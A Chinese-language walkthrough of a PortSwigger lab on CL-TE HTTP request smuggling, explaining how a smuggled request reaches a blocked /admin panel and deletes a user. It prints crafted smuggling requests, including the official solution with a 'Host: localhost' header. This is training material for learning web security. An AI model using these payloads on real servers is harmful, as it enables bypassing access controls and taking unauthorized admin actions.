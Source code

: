 # CL-TE绕过前端服务器安全控制

> 原文：[https://www.zhihuifly.com/t/topic/3480](https://www.zhihuifly.com/t/topic/3480)

#### CL-TE绕过前端服务器安全控制

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

**实验描述**：

本实验中包括一个前端和后端服务器，前端服务器不支持chunked encoding。同时本实验存在管理员系统/admin，但前端服务器限制了直接访问它。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

分别访问/home和/admin，前者显示`"Not Found"`，后者显示`"Path /admin is blocked"`

![image](img/abe3293b651b56f9b5c0bbb8fd187d80.png)

![image](img/62df3f412e46f1c8f000da83fab453f6.png)

已提示CL-TE，即前端只识别`Content-Length`，后端只识别`Transfer-Encoding`

构造一个走私请求

```
GET /home HTTP/1.1
Host: ac6c1fff1e1b83fa809c15fe009a008d.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ZZT6WpfyCJOaSO3LiMQrzMhEU7gIW0GE
Content-Length: 24
Transfer-Encoding: chunked

0 `GET /admin HTTP/1.1` 
```

根据返回消息可知需要使用POST方法

多次发送请求后收到提示：需要以localhost形式访问/admin

如果不成功需要多次发送请求

![image](img/85a2cd281457fe24709b1c8f1c65e3eb.png)

添加`Host: localhost`后多次发送请求

![image](img/2d5b2e976e3f07717fe92dd80639ecb8.png)

提示：不允许提交重复的header names，此处官网给出的解释是：

> Observe that the request was blocked due to the second request’s Host header conflicting with the smuggled Host header in the first request.
> 
> Issue the following request twice so the second request’s headers are appended to the smuggled request body instead:
> 
> * * *
> 
> ```
> >POST / HTTP/1.1
> >Host: your-lab-id.web-security-academy.net
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 116
> >Transfer-Encoding: chunked
> >
> >0
> >
> >GET /admin HTTP/1.1
> >Host: localhost
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 10
> >
> >x=  
> > 
> ```

简言之，由于第二个请求的`Host header`与第一个请求中走私请求的`Host header`冲突，请求被阻止。

因此构造以上请求，在发送两次请求的时候，可将第二个请求http数据包附加到走私请求主体中，拼接在x=之后，成为一个请求。

最后构造删除请求即可

![image](img/6c0e679db39a8f82967b5e82c461a8e8.png)

当然这里可以不采用以上方法，多次发送请求仍有概率成功，但成功率无法保证

![image](img/b0569f1ebcb81976c4d425897d5bff5c.png)
